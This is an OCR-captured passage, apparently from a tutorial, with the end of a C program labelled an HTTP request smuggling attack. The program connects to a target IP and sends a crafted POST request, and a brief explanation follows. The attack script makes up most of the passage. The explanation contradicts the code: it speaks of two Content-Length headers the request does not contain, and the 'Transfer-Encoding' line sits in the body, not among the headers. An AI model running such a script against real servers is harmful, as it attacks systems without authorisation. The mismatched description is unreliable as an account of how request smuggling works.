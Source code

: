 ```c
        perror("Error creating socket");
        exit(EXIT_FAILURE);
    }

    // Initialize target address structure
    memset(&target_addr, 0, sizeof(target_addr));
    target_addr.sin_family = AF_INET;
    target_addr.sin_addr.s_addr = inet_addr(TARGET_IP);
    target_addr.sin_port = htons(TARGET_PORT);

    // Connect to the target
    if (connect(sockfd, (struct sockaddr *)&target_addr, sizeof(target_addr)) < 0) {
        perror("Error connecting to target");
        exit(EXIT_FAILURE);
    }

    // Craft and send the HTTP request
    char request[1024] = "POST / HTTP/1.1\r\n"
                         "Host: example.com\r\n"
                         "Content-Length: 7\r\n"
                         "\r\n"
                         "0\r\n"
                         "Transfer-Encoding: chunked\r\n"
                         "\r\n";
    if (send(sockfd, request, strlen(request), 0) < 0) {
        perror("Error sending request");
        exit(EXIT_FAILURE);
    }

    printf("HTTP Request Smuggling attack completed.\n");

    // Close the socket
    close(sockfd);
}

int main() {
    printf("Starting HTTP Request Smuggling attack...\n");

    // Perform the HTTP Request Smuggling attack
    perform_smuggling();

    return 0;
}
```

#### Explanation:

- The `perform_smuggling` function crafts an HTTP request with two `Content-Length` headers and sends it to the target server. This can confuse intermediate proxies or servers, leading to inconsistent handling of the request body.
- In this example, we use the "chunked" Transfer-Encoding to indicate the end of the request body. However, the backend server may interpret the "0" chunk as the end of the request, while an intermediate proxy may treat the subsequent `Content-Length` header as part of the request body, leading to a request smuggling vulnerability.
